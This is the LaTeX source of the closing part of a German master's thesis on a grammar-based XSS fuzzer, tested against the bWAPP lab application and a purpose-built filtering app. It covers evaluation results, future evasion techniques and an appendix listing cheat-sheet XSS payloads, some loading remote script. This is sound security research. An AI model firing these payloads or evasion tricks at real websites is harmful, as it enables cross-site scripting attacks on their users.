	
\includegraphics[width=\textwidth]{contents/images/BadWAFDiagramReflectedFilterAttrValCombined}
	\caption{badWAF: Zuverlässigkeit für ausführbare Payloads im AttrVal-Kontext}
	\label{fig:badWAF-attrval-execute-combined}
\end{figure}

\subsubsubsection{bWAPP}\label{ssec:evaluation-executed-bwapp}

Smarty und die Burp Suite konnten auf Level 0 und 1 eine Zuverlässigkeit von 100\% erreichen. Einen besonderer Fall konnte bei einem Payload der Burp Suite beobachtet werden. Hier wurde ein Payload ausgeführt, der vorher von der SUT manipuliert worden ist. Der betroffene Payload enthielt die Zeichenkette ``javajavascriptscript'', welche nach dem entfernen von ``javascript'' wiederum ein valides Stück JavaScript-Code ergab. Diese Fähigkeit der Mutation ist in Smarty bisher nicht implementiert worden. 

Dharma hatte wiederholt bei der Generierung von funktionierendem Quellcode Probleme, was auf die kontextfreie Eigenschaft des Generators zurückzuführen ist. Besonders in der niedrigsten Sicherheitsstufe konnte Dharma nur eine Zuverlässigkeit von 48\% erreichen. Dieser Wert stieg bei Sicherheitsstufe 1 wieder auf 76\%.

In den Abbildungen \ref{fig:bWAPPLvl0ExecutedTries} und \ref{fig:bWAPPLvl1ExecutedTries} sind die benötigten Versuche für die Sicherheitslevel null und eins dargestellt. Deutlich wird auf beiden Abbildungen, dass Smarty in diesen Tests mit Abstand weniger Versuche benötigte als Dharma.

Auf Level 0 konnte die Burp Suite und der verwendete JavaScript-Polyglott jeweils eine sofortige Ausführung erreichen. Daher wurde die Burp Suite in Abbildung \ref{fig:bWAPPLvl1ExecutedTries} weggelassen.

\begin{figure}[htbp] 
	\centering
	\includegraphics[width=\textwidth]{contents/images/bWAPPLvl0ExecutedTries}
	\caption{bWAPP: Verlauf der Versuche für ausgeführte Payloads auf Level 0}
	\label{fig:bWAPPLvl0ExecutedTries}
\end{figure}

\begin{figure}[htbp] 
	\centering
	\includegraphics[width=\textwidth]{contents/images/bWAPPLvl1ExecutedTries}
	\caption{bWAPP: Verlauf der Versuche für ausgeführte Payloads auf Level 1}
	\label{fig:bWAPPLvl1ExecutedTries}
\end{figure}

Zum Vergleich der erzeugten Payloads sind in Abbildung \ref{fig:bWAPPExecutedResultsLevel1} exemplarisch zwei von Smarty und Dharma generierte Payloads dargestellt. Beide Payloads führten während des Tests zu einer Ausführung des enthaltenen JavaScript-Codes.

\begin{figure}[htbp] 
	\centering
	\includegraphics[width=.9\textwidth]{contents/images/bWAPPExecutedResultsLevel1}
	\caption{bWAPP: Ausgeführte Payloads auf Level 1}
	\label{fig:bWAPPExecutedResultsLevel1}
\end{figure}


\FloatBarrier
\section{Fazit}\label{eval:Conclusion}


%Die besonders deutliche Schwäche von SmartGrazer im Bezug auf die gefilterten spitzen Klammern, offenbart Optimierungspotential der aktuellen Implementierung. Denkbar wäre eine neue Mutator-Klasse, welche die gefilterten Zeichen in andere Formate kodiert.

Wie die Testläufe auf den vorherigen Seiten gezeigt haben, offenbart SmartGrazer vor allem in Bezug auf die gefilterten spitzen Klammern Optimierungspotentiale. Mögliches Verbesserungspotential könnte ggf. die Einführung einer neuen Mutator-Klasse sein, die die gefilterten Zeichen in andere Formate kodiert.

Tendenziell benötigte Dharma im Durchschnitt weniger Payloads, um passende Payloads zu konstruieren. Ein möglicher Grund hierfür könnte eine für SmartGrazer unvorteilhafte Filterkombination sein. Wie bereits erkannt, hat Smarty Probleme mit dem Filter für spitze Klammern. Falls dieser Filter in der zufälligen Auswahl für Smarty gewählt wurde, kann dies dessen Ergebnis zum Negativen verändern. Diesen Umstand kann man bei zukünftigen Testläufen genauer analysieren, um die Effizienz weiter zu steigern.

Zusammengefasst konnte Smarty mit einer Zuverlässigkeit von 93\% einen reflektierten Payload gegen bWAPP konstruieren. Auch Dharma erreichte eine höhere Zuverlässigkeit von 77\%, gegenüber der Burp Suite mit 67\%. Letztendlich kann gesagt werden, dass Smarty in den meisten Fällen einen erfolgreich reflektierten Payload konstruieren kann, wenn eine kombinatorische Möglichkeit vorhanden ist. Wie viele falsch-positive Resultate hierbei generiert werden, wurde in dieser Arbeit nicht geprüft.

Jedoch wurde durch Testläufe, bei denen ein funktionierender Payload gesucht wurde, die Existenz erfolgreich generierter Payloads bestätigt. Dabei handelt es sich jedoch nur um eine Untergruppe der tatsächlich funktionierenden Payloads, da viele JavaScript-Events ein manuelles Ausführen erfordern.

Smarty konnte mit einer Zuverlässigkeit von insgesamt 66\% einen ausführbaren Payload generieren und testen. Hierbei wurde bei Tests im HTML-Kontext eine Zuverlässigkeit von 82\% erreicht. Im Attributwert-Kontext konnte hingegen nur eine Zuverlässigkeit von 50\% erreicht werden. Gerade im Bereich anderer Kontexte besteht daher noch viel Raum für Verbesserungen.
 % (✔

\newpage
\chapter{Zusammenfassung und Aussichten}\label{Conclusion}

%Im Folgenden enthält Kapitel \ref{sec:summary} eine Zusammenfassung der beigetragenen Ergebnisse dieser Masterthesis. Zum Abschluss der Arbeit werden in Kapitel \ref{sec:future} einige aufgekommene Punkte, die entweder weiterer Aufmerksamkeit bedürfen oder für zukünftige Projekte im Gebiet der IT-Sicherheit relevanz haben.

Kapitel \ref{sec:summary} fasst die in dieser Masterthesis evaluierten Ergebnisse noch einmal kurz zusammen. Gleichzeitig werden im Kapitel \ref{sec:future} einzelne Ergebnisse und Diskussionspunkte aufgegriffen, die entweder weiterer Aufmerksamkeit bedürfen oder für zukünftige Projekte im Bereich der IT-Sicherheit relevant sein könnten. % (✔
\section{Zusammenfassung}\label{sec:summary}

Im Rahmen der vorliegenden Masterthesis wurde ein kontextabhängiger grammatikbasierter Fuzzer implementiert. Um diesen Ansatz mit bestehenden Verfahren zu Vergleichen, wurde darüber hinaus eine \ac{XSS}-Grammatik für den kontextfreien Grammatik-Generator Dharma erstellt. 

%Der kontextabhängige Ansatz wurde im Rahmen der Evaluierung zunächst mit dem kontextfreien Verfahren verglichen. Weiterhin wurden die Ergebnisse mit denen eines listen-basierenden Scanners verglichen. 
%
%Getestet wurden reflektierende XSS-Angriffe (Typ 1 XSS). Hierbei wurden zwei Webanwendungen für die Testläufe verwendet. Zunächst wurde gegen die bWAPP-Webanwendung getestet. Diese ist speziell für Webseitentests ausgelegt und beinhaltet eine Reihe verschiedener fehlerhafter Implementierungen. 
%
%Als weitere Testinstanz wurde eine neue Webanwendung (badWAF) implementiert, welche Benutzereingaben gezielt auf Teile von XSS-Angriffen durchsucht und diese entfernt. 

In der anschließenden Evaluierungsphase dieser Masterthesis wurde der kontextabhängige Ansatz dem kontextfreien Ansatz und einem listenbasierten Scanner gegenübergestellt.

Als Vergleichsmaß wurde auf reflektierende XSS-Angriffe zurückgegriffen. Für die Evaluation erfolgten sowohl Testläufe gegen die Webanwendung bWAPP als auch gegen die neu implementierte WebAnwendung badWAF.

Im Gegensatz zu bWAPP, die auf einem breiten Spektrum von Implementierungsfehlern in der Webseitenprogrammierung basiert, werden bei badWAF Benutzereingaben gezielt auf Bestandteile von XSS-Angriffen durchsucht und gefiltert.

Dabei liegt der Fokus darauf, dass zunächst nur einzelne Aspekte der Angriffe entfernt werden, sodass im Falle des entwickelten Payload-Generators, dieser alternative Angriffe bzw. andere Zeichen für den nächsten Angriff wählt.

Weiterhin wurden einzelne Filter der badWAF-Anwendung kombiniert, um die Schwierigkeit der Testläufe für die verwendeten Verfahren zu erhöhen. Hierbei wurde jedes Verfahren gegen fünf Kombinationen mit zwei bis sechs enthaltenen Filtern getestet.

Insgesamt wurden 25 Testläufe gegen beide Webapplikationen ausgewertet, bei denen der Fokus auf einer erfolgreiche Reflexion des gesendeten Payloads lag. Zusätzlich wurden zehn weitere Testläufe mit den drei genannten Anwendungen ausgeführt, bei denen der Fokus auf einem erfolgreich ausgeführten Payload lag.

Das Ergebnis der Evaluierung ergibt, dass durch grammatikbasierte Ansätze die Zahl der Requests enorm steigen kann. Der Vorteil dieses Verfahrens ist, dass eine höhere Testabdeckung erreicht werden kann als mit statischen bzw. listen-orientierten Verfahren, wie beispielsweise im Burp-Suite-Scanner. Durch eine höhere Testabdeckung werden dementsprechend mehr Schwachstellen lokalisiert. Durch das automatisierte Testen der generierten bzw. reflektierten Payloads wird ein automatisiertes Testen von Anwendungen ermöglicht, welche autonom ausgeführt werden können. Dies kann helfen gegebene Qualitätsstandards zu erhöhen und dauerhaft zu halten. % (✔
\section{Aussichten}\label{sec:future}

\subsection{Erweiterte Analyse der Antworten}

Die textbasierte Analyse der Webseiten-Antworten deckt zum jetzigen Zeitpunkt drei Fälle ab: Ein Element fehlt, wurde mittels HTML-Entities-Kodierung verändert oder etwas Anderes. Der letztere Fall kann in zukünftigen Arbeiten genauer betrachtet werden, um das Analyse-Modul von SmartGrazer zu erweitern. Denkbar wäre es, mittels Mutation gängige Kodierungen von Servern nachzustellen, um so mehr über die WAF lernen zu können.

\subsection{Mutationsklassen}

\paragraph{... für Wortschachtelung}
Wie in Kapitel \ref{ssec:evaluation-executed-bwapp} bereits erwähnt wurde, gibt es Möglichkeiten XSS-Filter durch Wortschachtelung wie z.B.: ``javajavascriptscript'' zu umgehen. Diese Funktion ist einfach zu implementieren und wird mit hoher Wahrscheinlichkeit einige der einfachen XSS-Filter der badWAF-Webanwendung überlisten können.

\paragraph{... für Zeichenverschleierung}
Wie in Quelltextbeispiel \ref{HTML5SRCDOCXSS} gezeigt, besteht die Möglichkeit Zeichen mittels des HTML-Encoding-Formats so zu verschleiern, dass ein XSS-Filter umgangen werden kann. Diese Erweiterung wird eine genauere Analyse des gewählten Payloads voraussetzen, um während der Generierung den aktuellen Kontext im Payload zu ermitteln. Hierdurch kann, wie anhand des \textbf{fpb}-Filters ersichtlich ist, eine Verbesserung der Qualität der generierten Payloads erreicht werden.

\paragraph{... für JavaScript-Verschleierung}
Wie bereits in Kapitel \ref{sec:attacksAndMutation} erwähnt, besteht die Möglichkeit, jeden JavaScript-Code in Form von sechs Zeichen zu verschleiern. Durch die Verbesserung des Analyse-Moduls von SmartGrazer lässt sich während der Laufzeit der Kontext automatisch ermitteln, um so entscheiden zu können, ob der gesendete JavaScript-Code vorher mittels ``JSFuck'' oder ``6chars.js'' verschleiert werden kann. Eine Portierung des ``JSFuck''-Pyhton-Projekts von Python2 auf Python3 wurde im Rahmen dieser Masterthesis bereits durchgeführt und veröffentlicht\footnote{\url{https://github.com/b1tray3r/jsfuck-py/tree/patch-1}}.

\paragraph{... für Evasion-Techniken}
Durch Umrechnen des Payloads in Kodierungen, die der Webseite nicht bekannt sind, können bestimmte Filter umgangen werden.

\subsection{Laufzeit der Testanfragen}

Während der Implementierung der Analyse-Komponente wurde auch in Betracht gezogen, die jeweiligen Requests an die Webseiten automatisch auf die Ausführung des Payloads zu testen. Dies erwies sich jedoch leider als nicht möglich, da es zwar eine Implementierung in Python3 für diesen Zweck gibt (``seleniumrequests''), diese jedoch noch nicht ausgereift ist. Es ist jedoch durchaus denkbar, dass eine zukünftige Integration von automatisierten Tests implementiert werden kann.

\subsubsection{Testen von JavaScript-Events}

Die bisherige Implementierung unterstützt automatisch ausgeführte Payloads. Zukünftig kann das automatische Testen anhand des Payloads ermitteln, welche Aktion (Mausklick, Mausbewegung, Tastendruck,...) im Browser ausgeführt werden muss, um den Payload zu aktivieren.

\subsection{Weiterentwicklung von SmartGrazer}

\subsubsection{Position des Payloads}

Wie bereits in Kapitel \ref{sec:analyze} beschrieben geht SmartGrazer von einer unveränderlichen Position des Payloads aus. Dieser kann jedoch variieren und gegebenenfalls gar nicht in den Antwortseiten auftauchen. Die Suche des Payloads in der Webseitenantwort ist essentiell für die zukünftige Anwendung der Software in der Praxis.

\subsubsection{Quantitative Auswertung der erzeugten Treffer hinsichtlich Falsch-Positiv-Meldungen}
Die Zahl der erzeugten Falsch-Positiv-Meldungen ist in dieser Arbeit nicht beachtet worden. In zukünftigen Arbeiten kann dieser Aspekt berücksichtigt werden.

\subsubsection{Analyse der Probleme mit ``<'' oder ``>''}
Die Kodierung bzw. die Reflexion der spitzen Klammern ist momentan ausschlaggebend für den Erfolg von ``Smarty''. In diesem Bereich müssen Vorgehensweisen erarbeitet werden, um gegebenenfalls Reaktionsmöglichkeiten zu generieren.

\subsubsection{Reduzierung der Request-Anzahl}

Die Reduktion der Request-Anzahl könnte sowohl durch Verbesserungen des Generators ``Smarty'' als auch durch die Analyse-Komponente ``Annelysa'' erreicht werden.

\paragraph{Smarty} Hier muss überprüft werden, ob es nicht effizientere Methoden gibt die Payloads einerseits zu generieren und andererseits die dazugehörigen Elemente zu verwalten. Auch kann ermittelt werden, wie sich alternative Verringerungsfaktoren im Vergleich zum eingesetzten Wert von 0,75 verhalten.

\paragraph{Annelysa} Durch eine Verbesserung der Erkennung von veränderten oder entfernter Elemente könnten Wahrscheinlichkeiten gezielter angepasst und somit bessere Payloads generiert werden. Weiterhin können durch eine automatische Erkennung des umgebenden Kontexts gezielt Mutationsklassen de- bzw. aktiviert werden. Hierdurch können Verschleierungstechniken gezielt angewendet und somit qualitativ bessere Payloads generiert werden. Wie in Abbildung \ref{fig:textbasedsearch} im ``else''-Fall bereits gezeigt, existieren Fälle, deren genaue Bedeutung SmartGrazer nicht verstehen kann. Eine Erweiterung der Analyse hinsichtlich dieses Aspektes kann ebenfalls Einfluss auf die Anzahl der Requests haben.
 % {[(✔
	
\begin{appendices}
	\renewcommand\appendixtocname{Anhang}
	\chapter{Verwendete Werkzeuge}

Die hier vorliegende Masterarbeit und die dazugehörige Implementierung wurde mit folgenden Programmen und Programmiersprachen erstellt:

\begin{description}
	\item[Programmiersprache] Python 3 (Windows)
	\item[\acs{IDE}] JetBrains PyCharm Professional 2017.2
	\item[Technische Dokumentation] Sphinx\footnote{\url{http://www.sphinx-doc.org/}}
	\item[Diagramme] DrawIO\footnote{\url{https://www.draw.io/}}
	\item[Webdriver] Firefox / GeckoDriver\footnote{\url{https://github.com/mozilla/geckodriver/releases/tag/v0.19.0}}
\end{description}

Die technische Dokumentation kann im SmartGrazer-Unterverzeichnis \textbf{``doc''} mittels eines Makefile generiert und mit der Datei \textbf{``doc/build/html/index.html''} eingesehen werden. 

\chapter{Quellcode}

\begin{lstlisting}[caption={Verwendete Payloads des XSS Filter Evasion Cheat Sheet},label=lst:payload-list]
<a onmouseover="alert(1)">XSS</a>
<img src="javascript:alert('XSS');">
<img """><script>alert(1)</script>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<img src=# onmouseover="alert(1)">
<img src= onmouseover="alert(1)">
<img src=/ onerror="alert(1)"></img>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099 #0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108& #0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083& #0000083&#0000039&#0000041">
<IMG SRC="jav	ascript:alert(1);">
<SCRIPT/XSS SRC="http://XSS.rocks/XSS.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<SCRIPT SRC=http://XSS.rocks/XSS.js?< B >
\";alert('XSS');//
</script><script>alert('XSS');</script>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<BODY BACKGROUND="javascript:alert('XSS')">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
<BODY ONLOAD=alert('XSS')> <BODY ONLOAD =alert('XSS')>
<BR SIZE="&{alert('XSS')}">
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<IMG STYLE="XSS:expr/*XSS*/ession(alert('XSS'))">
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");} </STYLE><A CLASS=XSS></A>
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")} </STYLE>
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="width: expression(alert('XSS'));">
\end{lstlisting}

\newpage

\begin{lstlisting}[caption={Vollständiges Beispiel einer SUT-Konfigurationsdatei},label=lst:full-sut-config]
{
  "runconfig": {
  "valid": {
    "precondition": {
      "target": "https://aborgardt.com/master/bWAPP/login.php",
      "params": {
        "post": {
          "login": "bee",
          "password": "bug",
          "security_level": 0,
          "form": "submit"
        }
      }
    },
    "action": {
      "filesuffix": "valid",
      "target": "https://aborgardt.com/master/bWAPP/XSS_get.php",
        "params": {
          "get": {
            "firstname": "PAYLOAD",
            "lastname": "smartgrazer"
          }
        }
      },
      "PAYLOAD": "#smartgrazer"
    },
    "attack": {
      "precondition": {
        "target": "https://aborgardt.com/master/bWAPP/login.php",
        "params": {
          "post": {
            "login": "bee",
            "password": "bug",
            "security_level": 0,
            "form": "submit"
          }
        }
      },
      "action": {
        "filesuffix": "payload",
        "target": "https://aborgardt.com/master/bWAPP/XSS_get.php",
        "params": {
          "get": {
            "firstname": "PAYLOAD",
            "lastname": "smartgrazer"
          }
        }
      }
    }
  }
}
\end{lstlisting}

\newpage
\chapter{Abbildungen}

\begin{figure}[htbp] 
	\centering
	\includegraphics[width=\textwidth]{contents/images/PolyglottFullExample}
	\caption{XSS-Polyglott: Funktion des Payloads in allen abgedeckten Kontexten}
	\label{fig:PolyglottFullExample}
\end{figure}

\begin{figure}[htbp] 
	\centering
	\includegraphics[width=\textwidth]{contents/images/SmartGrazerWorkflowPhases}
	\caption{Ablaufdiagramm: SmartGrazer mit gewähltem -x Parameter}
	\label{fig:SmartGrazerWorkflowPhases}
\end{figure}
\end{appendices}

% Alle Quellen auflisten
%\nocite{*}	
\bibliographystyle{plainnat}
\bibliography{bibliography}
\end{document}

